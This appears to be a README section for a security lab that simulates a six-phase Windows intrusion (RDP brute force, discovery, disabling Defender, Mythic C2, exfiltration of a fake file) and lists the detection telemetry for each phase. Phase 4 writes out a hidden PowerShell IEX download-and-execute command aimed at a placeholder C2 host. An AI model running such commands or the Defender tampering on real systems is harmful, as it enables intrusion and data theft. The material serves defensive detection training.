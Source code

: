 ## Attack phases & detailed steps

**Phase 1 — Initial Access (RDP brute force)**

- Action: From Kali, perform an RDP brute force against the Windows Server to obtain valid credentials.
- Demo intent: Use automated tooling or scripted attempts against RDP (lab-only).
- Indicators / telemetry: Numerous failed RDP auth attempts over short time window, multiple source IPs (if proxying), successful login event (Windows Event ID 4624 with RDP logon type), increased account lockouts, Windows Security logs.

**Phase 2 — Discovery (post-auth interactive checks)**

- Action: After successful RDP login, run simple discovery commands to assess privileges and environment: `whoami`, `ipconfig`, `net user`, `net group`.
- Purpose: Confirm current account privileges and identify local network configuration and accessible resources.
- Indicators / telemetry: Process creation events (Sysmon Event ID 1 / Event ID 4688), command-line arguments in process logs, network configuration queries, console history if captured.

**Phase 3 — Defense Evasion (disable Windows Defender)**

- Action: Attempt to disable or tamper with Windows Defender to avoid detection (for lab simulation, perform controlled, reversible steps).
- Example approaches (lab simulation): modify Defender preferences via PowerShell cmdlets or temporarily stop relevant services (in isolated environment only).
- Indicators / telemetry: Service stop events, Windows Event Logs related to Defender, PowerShell logs (Module logging / ScriptBlock logging), EDR alerts for tampering attempts.

**Phase 4 — Execution (download and run agent via PowerShell IEX)**

- Action: Use PowerShell `IEX` / `Invoke-Expression` to download and execute the Mythic agent from the C2 server (e.g., `powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<c2>/agent.ps1')"`).
- Purpose: Stage and execute the agent to establish a persistent callback.
- Indicators / telemetry: Outbound HTTP(s) GET to suspicious host, process creation for `powershell.exe`, PowerShell command-line telemetry, proxy logs, EDR detections for known downloader patterns.

**Phase 5 — Command & Control (establish C2 session)**

- Action: Agent opens a C2 channel back to the Mythic server (HTTP/HTTPS/DNS/mTLS based on profile).
- Operator actions: Issue commands, upload tools, run discovery & lateral movement commands from the operator console.
- Indicators / telemetry: Regular beaconing intervals, unusual User-Agent or encrypted payload blobs, DNS anomalies (if using DNS), JA3/JA3S mismatches, network metadata patterns, correlating process to network connections on host.

**Phase 6 — Exfiltration (download fake `passwords.txt` and retrieve it via C2)**

- Action: Create a fake `passwords.txt` on the Windows Server in the demo, then use the established C2 channel to exfiltrate it to the operator.
- Indicators / telemetry: Outbound data transfer patterns, file access timestamps, PowerShell or agent activity performing file transfer, file staging artifacts, netflow showing data volume increases.

---